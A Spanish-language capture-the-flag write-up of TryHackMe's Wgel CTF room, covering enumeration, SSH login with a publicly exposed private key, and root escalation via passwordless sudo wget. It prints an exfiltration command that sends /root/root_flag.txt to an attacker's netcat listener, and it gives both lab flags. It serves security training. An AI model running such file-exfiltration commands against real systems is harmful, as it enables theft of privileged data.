<h1 align="center">🫠 Wgel CTF — Writeup Completo</h1>

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  <i>Memoria de operación ofensiva sobre la room Wgel CTF de TryHackMe. Reconocimiento, enumeración web en tres fases, acceso SSH por clave privada expuesta y escalada de privilegios mediante explotación de wget con sudo sin contraseña.</i>
</p>

---

> [!WARNING]
> **Aviso Legal.** Este writeup ha sido elaborado exclusivamente con fines académicos en el contexto del **Máster en Ciberseguridad**. Las técnicas documentadas se han aplicado únicamente sobre infraestructura propia de TryHackMe bajo sus condiciones de uso. El autor declina toda responsabilidad por cualquier uso indebido de la información aquí recogida.

---

## 📑 Índice

1. [Resumen Ejecutivo](#-1-resumen-ejecutivo)
2. [Vectores de Ataque (OWASP y MITRE)](#-2-vectores-de-ataque-owasp-y-mitre)
3. [Herramientas Utilizadas](#-3-herramientas-utilizadas)
4. [Diagrama de Flujo del Ataque](#-4-diagrama-de-flujo-del-ataque)
5. [Fase 1 — Reconocimiento (Nmap)](#-5-fase-1--reconocimiento-nmap)
6. [Fase 2 — Enumeración Web: Primera Pasada](#-6-fase-2--enumeración-web-primera-pasada)
7. [Fase 3 — Enumeración Web: Segunda Pasada](#-7-fase-3--enumeración-web-segunda-pasada)
8. [Fase 4 — Enumeración Web: Tercera Pasada (El hallazgo clave)](#-8-fase-4--enumeración-web-tercera-pasada-el-hallazgo-clave)
9. [Fase 5 — Análisis del Código Fuente](#-9-fase-5--análisis-del-código-fuente)
10. [Fase 6 — Obtención de Credenciales y Acceso SSH](#-10-fase-6--obtención-de-credenciales-y-acceso-ssh)
11. [Fase 7 — Flag de Usuario](#-11-fase-7--flag-de-usuario)
12. [Fase 8 — Escalada de Privilegios (wget + GTFOBins)](#-12-fase-8--escalada-de-privilegios-wget--gtfobins)
13. [Fase 9 — Flag de Root](#-13-fase-9--flag-de-root)
14. [Flags Obtenidas](#-14-flags-obtenidas)
15. [Conclusión](#-15-conclusión)

---

## 📌 1. Resumen Ejecutivo

La room **Wgel CTF** (TryHackMe, Easy) plantea un servidor Linux con dos servicios expuestos, SSH y HTTP. La cadena de explotación parte de una **enumeración web exhaustiva en tres fases** con `gobuster` hasta descubrir un directorio `.ssh` accesible públicamente que contiene una clave RSA privada. El nombre de usuario se extrae de un comentario en el código fuente HTML. La escalada a root explota el binario `wget`, configurado en `sudoers` sin requerimiento de contraseña, enviando el fichero de la flag de root como cuerpo de una petición POST a un listener `nc` en el equipo atacante.

---

## 🎯 2. Vectores de Ataque (OWASP y MITRE)

- [x] **Sensitive Data Exposure:** Clave privada RSA accesible públicamente a través de un endpoint `.ssh` no protegido. *(OWASP A02:2021)*
- [x] **Security Misconfiguration:** El directorio `.ssh` del servidor web no tiene control de acceso. *(OWASP A05:2021)*
- [x] **Information Disclosure:** Nombre de usuario `jessie` filtrado en el código fuente HTML como comentario de desarrollador.
- [x] **Privilege Escalation (sudo abuse):** `jessie` tiene permiso `NOPASSWD` para ejecutar `/usr/bin/wget` como root, explotable vía GTFOBins para exfiltrar ficheros de root. *(MITRE TA0004)*

---

## 🛠️ 3. Herramientas Utilizadas

| Herramienta | Propósito |
|:---|:---|
| `nmap` | Reconocimiento de puertos y servicios |
| `gobuster` | Enumeración de directorios y ficheros web |
| Navegador / código fuente | Análisis manual del HTML |
| `ssh` + `id_rsa` | Acceso autenticado al servidor |
| `sudo -l` | Auditoría de permisos de superusuario |
| `wget --post-file` | Exfiltración del fichero root como POST |
| `nc -lvnp` | Receptor del contenido de la flag de root |
| [GTFOBins](https://gtfobins.github.io/) | Referencia de técnicas de bypass para binarios Unix |

---

## 🔥 4. Diagrama de Flujo del Ataque

```text
🚀 [ INICIO: Máquina Wgel CTF iniciada en TryHackMe ]
                 │
                 ▼
🔍 [ FASE 1: Reconocimiento — nmap ]
    └─> Puertos 22 (SSH) y 80 (HTTP) abiertos
                 │
                 ▼
🌐 [ FASE 2: Enumeración Web — Gobuster pasada 1 sobre / ]
    └─> Descubierto: /sitemap (301)
                 │
                 ▼
🌐 [ FASE 3: Enumeración Web — Gobuster pasada 2 sobre /sitemap ]
    └─> Páginas HTML, assets CSS/JS/imágenes. Sin vectores directos.
                 │
                 ▼
🔑 [ FASE 4: Enumeración Web — Gobuster pasada 3 sobre /sitemap con dirb/common.txt ]
    └─> Descubierto: /.ssh → Clave privada RSA expuesta públicamente
                 │
                 ▼
🖥️ [ FASE 5: Análisis del Código Fuente HTML ]
    └─> Comentario de desarrollador revela el usuario: "jessie"
                 │
                 ▼
🔐 [ FASE 6: Acceso SSH ]
    └─> chmod 600 id_rsa → ssh -i id_rsa jessie@<IP>
                 │
                 ▼
🏳️ [ FASE 7: Flag de Usuario ]
    └─> ~/Documents/user_flag.txt → 057c67131c3d5e42dd5cd3075b198ff6
                 │
                 ▼
⚡ [ FASE 8: Escalada de Privilegios ]
    ├─> sudo -l → jessie puede ejecutar wget NOPASSWD como root
    ├─> GTFOBins → método shell fallido
    └─> sudo wget --post-file=/root/root_flag.txt <IP_ATACANTE:80>
                 │
                 ▼
🏴 [ FASE 9: Flag de Root — recibida en listener nc ]
    └─> b1b968b37519ad1daa6408188649263d
                 │
                 ▼
🎉 [ ROOM COMPLETADA — Ambas flags confirmadas en TryHackMe ]
```

---

## 💻 5. Fase 1 — Reconocimiento (Nmap)

Con la máquina iniciada, el primer paso obligatorio es el reconocimiento pasivo. Se lanza un escaneo **SYN Stealth** (`-sS`) — el modo más silencioso sin llegar a completar el _handshake_ TCP — con máxima verbosidad (`-vvvv`) y agresividad de timing (`-T4`) para acelerar el barrido de los 1000 puertos más comunes.

```bash
sudo nmap -T4 -vvvv -sS 10.129.181.52
```

**Resultado:** Solo dos puertos activos — `22/tcp` (SSH) y `80/tcp` (HTTP). La superficie de ataque es reducida: o se entra por SSH (necesitamos credenciales) o investigamos el servidor web. El vector obvio para empezar es el HTTP.

<details open>
<summary><b>▸ Ejecución del comando nmap</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details open>
<summary><b>▸ Resultado: Puertos 22 y 80 descubiertos</b></summary>
<br>
<div align="center">
  
</div>
</details>

---

## 🌐 6. Fase 2 — Enumeración Web: Primera Pasada

Con el servicio HTTP confirmado, se lanza `gobuster` en modo enumeración de directorios sobre la raíz del servidor. Se usa la wordlist `dirbuster/directory-list-2.3-medium.txt` con 50 hilos paralelos y se añaden las extensiones más comunes en servidores web (`php`, `txt`, `html`) para ampliar la superficie de búsqueda.

```bash
sudo gobuster dir -u http://10.129.181.52/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 50 -x php,txt,html
```

**Resultado:** El único hallazgo relevante es `/sitemap` con código 301 (redirección permanente). El servidor base es un Apache con la página por defecto reemplazada por un sitio web comercial. El `/sitemap` será el siguiente objetivo de enumeración.

<details open>
<summary><b>▸ Ejecución Gobuster — Pasada 1</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details open>
<summary><b>▸ Resultado — /sitemap localizado</b></summary>
<br>
<div align="center">
  
</div>
</details>

---

## 🌐 7. Fase 3 — Enumeración Web: Segunda Pasada

Con `/sitemap` como nuevo objetivo, se relanza `gobuster` apuntando a ese endpoint. Se cambia a la wordlist `small` para acelerar el proceso dado que ya se tiene el contexto del servidor.

```bash
sudo gobuster dir -u http://10.129.181.52/sitemap \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt \
  -t 50 -x php,txt,html
```

**Resultado:** Se enumeran las páginas del sitio web: `index.html`, `about.html`, `contact.html`, `blog.html`, `services.html`, `shop.html`, `work.html`, y assets estáticos (`css/`, `js/`, `fonts/`, `images/`, `sass/`).

Se revisan **todos los endpoints manualmente** en busca de vectores. El sitio comercial vende servicios genéricos y tiene algún comentario de desarrollador, pero ninguno compromete credenciales ni rutas sensibles. En el formulario `/contact.html` se insertan datos en todos los campos y se analiza la respuesta HTTP — se intenta también inyectar código, sin éxito aparente. Cuatro endpoints auditados, ningún vector directo. _Toca cambiar de enfoque._

<details open>
<summary><b>▸ Ejecución Gobuster — Pasada 2 sobre /sitemap</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details open>
<summary><b>▸ Resultado — Páginas del sitio web listadas</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details>
<summary><b>▸ Endpoint /contact localizado y analizado</b></summary>
<br>
<div align="center">
  
</div>
</details>

---

## 🔑 8. Fase 4 — Enumeración Web: Tercera Pasada (El hallazgo clave)

Dado que la wordlist usada anteriormente (con la restricción de extensiones `-x`) no ha dado más frutos, se replantea la estrategia: se elimina el filtro de extensiones y se cambia a `dirb/common.txt` — una lista más orientada a encontrar directorios del sistema ocultos, ficheros de configuración y rutas de infraestructura que las wordlists de `dirbuster` no suelen cubrir.

> La clave está en que `/sitemap/` es en realidad un directorio raíz de un sitio web completo desplegado ahí, y los directorios del sistema como `.ssh` son invisibles para wordlists diseñadas para páginas web, pero no para `dirb/common.txt`.

```bash
gobuster dir -u http://10.129.157.148/sitemap/ \
  -w /usr/share/wordlists/dirb/common.txt \
  -t 50
```

**Resultado crítico:** Aparece `.ssh` con código 301. Al navegar a `http://10.129.157.148/sitemap/.ssh/` directamente en el navegador, el servidor devuelve el listado del directorio con un fichero `id_rsa` — la **clave privada RSA del servidor**, expuesta públicamente sin ningún control de acceso. Se copia íntegramente.

<details open>
<summary><b>▸ Ejecución Gobuster — Pasada 3 con dirb/common.txt</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details open>
<summary><b>▸ Resultado — .ssh descubierto</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details open>
<summary><b>▸ Clave privada RSA hallada y extraída</b></summary>
<br>
<div align="center">
  
</div>
</details>

---

## 🖥️ 9. Fase 5 — Análisis del Código Fuente

Disponiendo ya de la clave privada, falta el **nombre de usuario** para completar el acceso SSH. Se vuelve al sitio web y se inspecciona el código fuente de `index.html` con el navegador. Entre las etiquetas HTML aparece un comentario de desarrollador que menciona a un tal **`jessie`** — un dato que los desarrolladores olvidaron eliminar antes de desplegar el sitio en producción.

> [!NOTE]
> El primer intento de login SSH se realizó con `Jessie` (con J mayúscula) — **fallido**. Solo tras probar la variante en minúsculas `jessie` se consigue autenticación. Un detalle pequeño que en un entorno real podría costar minutos valiosos.

<details open>
<summary><b>▸ Comentario en el código fuente — usuario jessie filtrado</b></summary>
<br>
<div align="center">
  
</div>
</details>

---

## 🔐 10. Fase 6 — Obtención de Credenciales y Acceso SSH

Con la clave privada RSA en local y el usuario `jessie` identificado, solo queda establecer la sesión. Sin embargo, OpenSSH aplica una política de seguridad estricta: **rechaza claves privadas cuyos permisos de fichero sean demasiado abiertos**, considerándolas potencialmente comprometidas. El paso obligatorio es restringir el acceso al propietario exclusivamente mediante `chmod 600`.

```bash
chmod 600 id_rsa
ssh -i id_rsa jessie@10.129.157.148
```

La sesión se establece correctamente. El sistema objetivo es `CorpOne`, un servidor Ubuntu, y se opera ahora con el usuario `jessie`.

<details open>
<summary><b>▸ Permisos 600 aplicados a la clave</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details open>
<summary><b>▸ Acceso SSH como jessie — sesión establecida</b></summary>
<br>
<div align="center">
  
</div>
</details>

---

## 🏳️ 11. Fase 7 — Flag de Usuario

Una vez dentro del servidor como `jessie`, se navega por los directorios del perfil hasta localizar el fichero con la primera flag.

```bash
ls ~/Documents/
cat ~/Documents/user_flag.txt
```

**Flag de usuario:** `057c67131c3d5e42dd5cd3075b198ff6`

<details open>
<summary><b>▸ Flag de usuario estándar hallada</b></summary>
<br>
<div align="center">
  
</div>
</details>

---

## ⚡ 12. Fase 8 — Escalada de Privilegios (wget + GTFOBins)

Dentro del servidor, el primer diagnóstico de escalada es `sudo -l`. `jessie` pertenece además al grupo `sudo`, pero el hallazgo más explotable es inmediato: puede ejecutar `/usr/bin/wget` **como root y sin necesidad de contraseña**.

```bash
jessie@CorpOne:~$ sudo -l
(root) NOPASSWD: /usr/bin/wget
```

Se consulta [GTFOBins](https://gtfobins.github.io/gtfobins/wget/) — la referencia canónica de técnicas de _living off the land_ con binarios Unix — en busca de un vector para `wget`. La entrada documenta un método de **shell directa** usando `--use-askpass`. Se ejecuta siguiendo los pasos exactos de GTFOBins... y **falla**. El servidor no lo permite en esa configuración.

> Este tipo de obstáculos son habituales en pentesting real: los writeups de GTFOBins son guías, no recetas infalibles. Toca adaptar.

El siguiente razonamiento es: si `wget` puede hacer peticiones HTTP como root, puede **leer cualquier fichero del sistema y enviarlo como cuerpo POST** a un receptor controlado. No se puede hacer `wget` a internet arbitrario, pero sí a la máquina del atacante en la misma red VPN.

> **Deducción del nombre del fichero:** No se conoce a priori el nombre exacto de la flag de root. Partiendo de que la flag de usuario se llamaba `user_flag.txt`, se infiere por coherencia que la de root se llamará `root_flag.txt`. El nombre es correcto.

**En Kali (atacante) — receptor en escucha:**
```bash
nc -lvnp 80
```

**En el servidor comprometido — exfiltración:**
```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt 192.168.132.194
```

`wget` se ejecuta con permisos de root, lee `/root/root_flag.txt` (inaccesible para `jessie`) y lo envía como cuerpo de la petición HTTP POST al listener `nc` del atacante.

<details open>
<summary><b>▸ sudo -l — wget sin contraseña para jessie</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details open>
<summary><b>▸ GTFOBins — vector shell localizado</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details open>
<summary><b>▸ wget --post-file lanzado contra el listener</b></summary>
<br>
<div align="center">
  
</div>
</details>

---

## 🏴 13. Fase 9 — Flag de Root

El listener `nc` en el equipo atacante recibe la conexión POST del servidor y el cuerpo de la petición contiene el contenido de `/root/root_flag.txt`.

**Flag de root:** `b1b968b37519ad1daa6408188649263d`

<details open>
<summary><b>▸ Flag de root recibida en el listener nc</b></summary>
<br>
<div align="center">
  
</div>
</details>

<details open>
<summary><b>▸ Room completada en TryHackMe</b></summary>
<br>
<div align="center">
